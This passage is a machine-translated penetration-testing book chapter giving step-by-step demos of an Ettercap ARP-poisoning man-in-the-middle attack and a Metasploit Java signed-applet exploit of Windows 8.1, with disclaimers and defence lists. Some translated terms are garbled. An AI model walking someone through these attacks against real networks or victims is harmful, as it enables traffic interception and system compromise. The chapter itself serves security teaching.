# 八、数据采集与利用

欢迎在上一章中，我们使用了一些工具，如 Karmetasploit、Wireshark 和 WiFi 菠萝，弄脏了我们的手。

在本章中，我们将介绍以下主题：

*   捕获未加密的网络流量
*   中间人攻击
*   变质岩
*   预防威胁

在上一章中，我们讨论了如何嗅探流量，但如何获取用户名、密码和其他敏感信息？

由于这是一本高级技术书籍，希望您对此有一个基本的了解；然而，为了您的利益，我们将通过一个演示来介绍这是如何工作的。感觉自信吗？没问题。请直接跳到演示。对于仍在阅读的读者，让我们从学习如何捕获加密流量开始。

# 捕获未加密的流量

我们知道，任何连接到同一无线网络的人都可以通过纯文本查看未加密的无线通信。您的数据可能会受到危害，例如您的电子邮件、即时消息、FTP 文件、telnet 会话、HTTP 会话等。这是怎么回事？当用户使用 HTTP 浏览网站时，他们传输的数据不受端到端的保护，因此可以被同一网络上的任何人截获和记录。

Wireshark 是一种网络分析器，允许您查看实时网络数据包并保存结果。Wireshark 可以在 Windows、Mac、Linux 和 Unix 操作系统上运行。如果用户在网络上运行 Wireshark，他们可以看到人们访问的网站、正在传输的文件、即时消息等等。

有许多网络服务容易受到网络嗅探和公共网络的攻击。任何具有 Wireshark 正确技能和知识的人都可以轻易地破坏您的帐户。

要保持安全，请始终检查以下各项：

*   使用 WPA 或 WPA2 加密
*   在公共网络上始终使用 HTTPS
*   使用 SSH 或加密电子邮件进行文件传输
*   在公共网络上使用 VPN
*   使用密码管理器登录网站

# 中间人攻击

你可能听说过中间的猴子，但是你听说过中间的人吗？**中间人**（**MITM**攻击是指用户成为网络拦截的受害者。网络上的恶意用户的行为类似于路由器，他们在路由器中获取所有网络流量。这包括电子邮件、登录、聊天信息等。



本演示仅用于教育目的。黑客行为变得更加安全是一项巨大的技能资产。在大多数国家，未经许可在未经授权的网络上进行任何形式的恶意活动都被视为犯罪。在下一个演示中，我们将使用自己的计算机和网络。

1.  Open a Terminal and type `leafpad /etc/ettercap/etter.conf`:

    

2.  With `etter.conf` opened, look for the words highlighted:

    

    您需要将突出显示的代码更改为：

    

3.  Click on **Search** and then on **Find**. Type `iptables` and click on the **Find** button:

    

    结果应该如下所示：

    

    您将需要取消注释其中的两行，如下所示：

    

4.  Start `Ettercap-gtk` by opening a Terminal and typing `ettercap –G`:

    

5.  When Ettercap opens, you will need to click on **Sniff** then select **Unified sniffing**:

    

6.  Select the interface that is connected to the network:

    

    ### 注

    如果您正在使用 Wi-Fi，您将选择`wlan0`或`wlan1`。

7.  Click on **Hosts** and then select **Scan for hosts**, as shown in the following screenshot:

    

8.  In the command box, you should see **hosts added to the host list**. Click on **Hosts** and then select **Host List**:

    

9.  Select the IP address of the router and then click on the **Add to Target 1** button. The following screen appears:

    

10.  Select the IP address of the victim and then click on the **Add to Target 2** button:

    

11.  Click on **Mitm** and then select **Arp poisoning**:

    

12.  When you receive a prompt, check the box next to **Sniff remote connections** and click on **OK**:

    

13.  点击**开始**，然后选择**开始嗅探**。

Ettercap 将开始 ARP 毒害受害者和路由器。ETERCAP 将显示来自受害者的任何信息或数据。

祝贺您已成功实施了完整的 MITM 攻击。

如果您愿意，还可以使用 sslstrip 和 urlsnarf 等工具从受害者那里获取一些附加信息。**sslstrip**是一种 MITM 攻击，它迫使用户使用 HTTP 协议而不是 HTTPS 进行通信，在这种协议中，攻击者可以以明文形式查看所有 SSL 流量。**HTTP 严格传输安全**（**HSTS**是一种保护您免受此类威胁的安全保护机制。它可以防止在 cookie 和浏览器劫持发生时 HTTPS 被降级。**urlsnarf**以 CLF 格式显示所有请求的 HTTP 流量，可用于分析 web 流量和用户访问的网站。攻击者还可以利用它来窥探用户，知道他们正在搜索什么并在互联网上访问什么。

要停止攻击，请单击**开始**，然后选择**停止嗅探**，如图所示：



停止攻击后，eTerCap 将发送 ARP 数据包，网络将在几分钟内恢复正常。您可以使用 ARP 检测软件（如 XArp 或 Snort）保护自己免受此类攻击。此外，分配静态 ARP 条目有助于防止攻击。它会告诉攻击者路由器的 MAC 地址是永久的，无法更改。因此，它将忽略攻击者发送的所有 ARP 数据包。

# 变质岩

啊，是的，Metasploit 是渗透测试人员和 IDS 开发人员可用的最臭名昭著的开源工具！**Metasploit Framework**是一个充满安全漏洞和脚本的数据库。它是针对目标系统开发和执行利用代码的最流行的开源工具之一。Metasploit UI 显示在以下屏幕截图中：



在下一个演示中，我们将通过 Java 漏洞利用 Windows 8.1。此漏洞将允许攻击者获取系统信息或哈希转储、从网络摄像头拍照、授予管理权限、创建和运行可执行文件、创建后门等。开始吧！

1.  Open a Terminal and type `msfconsole`:

    ### 提示

    您也可以运行`server postgresql start`或`service metasploit start`。

    

2.  Now type `search java_signed_applet`:

    

3.  Then type `use exploit/multi/browser/java_signed_applet`:

    

4.  Now type `set SRVHOST <IPADDRESS>`:

    

    ### 提示

    将`<IPADDRESS>`替换为您的 Kali Linux IP 地址。

5.  Type `exploit`:

    

6.  On the victim's system, navigate to the URL link provided by Metasploit. You should receive the following:

    

    JVM 应该在受害者的系统上发出提示，询问他们是否信任已签名的小程序。如果用户运行的是较旧版本的 Java，则会显示**未知**。一旦用户单击**运行**，Java 小程序将执行，因此利用 Java 在 Metasploit 中创建 MeterMeter 会话：

    

7.  在流量计中，键入`sysinfo`确认您的成功。

祝贺您已成功利用 Windows 8.1 操作系统。

为了保护自己免受此类攻击，请考虑以下事项：

*   如果不打算使用 Java，请禁用它
*   提高 Java 的安全级别
*   仅允许来自 Java 的受信任源
*   仅访问受信任的网站和远程服务器
*   启用 Windows Defender 或其他安全软件

# 预防措施

以下是本章讨论的所有预防措施的总结：

*   使用 SSH 或加密电子邮件进行文件传输
*   在公共网络上使用 VPN
*   使用密码管理器登录网站
*   使用 ARP 检测软件，如 XArp 或 Snort
*   分配静态 ARP 条目
*   如果不打算使用 Java，请禁用它
*   提高 Java 的安全级别
*   仅允许来自 Java 的受信任源
*   仅访问受信任的网站和远程服务器
*   启用 Windows Defender 或其他安全软件
*   下载并安装软件更新
*   下载并安装操作系统更新

同样，这一切都取决于用户的计算机行为。如果用户连接到公共网络，他们可能是 MITM 攻击的受害者。如果用户正在盗版软件或电影，他们可能是漏洞攻击的受害者。

# 总结

我希望你和我一样喜欢这一章。实践证明，这些演示应该是一个很好的开心果，可以扩大你的安全感，从而进一步保护自己和他人免受攻击。

在本章中，我们介绍了以下内容：

*   如何使用 HTTP、FTP 和 Telnet 等协议捕获未加密的流量
*   如何使用加密保护自己
*   中间的人是什么
*   中间人进攻的示范
*   如何保护自己免受中间人攻击
*   什么是 Metasploit
*   Metasploit 的演示
*   如何保护自己免受 Metasploit 攻击

在下一章中，您将学习如何通过本地网络来访问其他系统和设备。我们还将记录我们的工作，并在最后进行清理。在[第 9 章](09.html "Chapter 9. Post-Exploitation")、*后期开发*中再见！